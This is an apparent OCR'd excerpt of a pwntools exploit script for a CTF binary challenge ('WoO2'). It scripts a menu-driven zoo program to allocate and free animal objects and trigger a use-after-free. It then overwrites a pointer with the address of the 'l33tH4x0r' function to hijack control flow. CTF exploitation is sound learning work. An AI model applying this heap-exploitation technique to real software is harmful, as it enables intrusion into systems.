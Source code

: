 ```python
for _ in range(4):
    vp.readline()
read_menu()


def make_bear(content, type=3):
    # choose bear in toplevel menu
    vp.sendline("3")
    # read bear type menu
    for _ in range(3):
        vp.readline()
    # bear type -- this is actually whatever since we're going to overwrite it
    # probably with content...
    vp.sendline(str(type))
    # read bear's name menu line
    vp.readline()
    # bear name must be 3 for pwnMe to trigger
    vp.sendline(content)
    read_menu()


def make_lion(content, type=2):
    vp.sendline("1")
    for _ in range(3):
        vp.readline()
    vp.sendline(str(type))
    vp.readline()
    vp.sendline(content)
    read_menu()


def make_tiger(content, type=3):
    vp.sendline("2")
    for _ in range(5):
        vp.readline()
    vp.sendline(str(type))
    vp.readline()
    vp.sendline(content)
    read_menu()


def delete_animal(num):
    vp.sendline("4")
    vp.readline()
    vp.readline()
    vp.sendline(str(num))
    read_menu()


if UAF:  # required for WoO2 (fixed)
    log.info("making first bear")
    make_bear("AAAA")
    log.info("making second bear")
    make_bear("AAAA")
    log.info("deleting second bear")
    delete_animal(1)
    # now bearOffset == 1

calltarget = velf.symbols["l33tH4x0r"]
malcontent = p64(calltarget)

log.info("making a tiger with with content\n" + hexdump(malcontent))
log.info("redirecting control flow to " + hex(calltarget))
```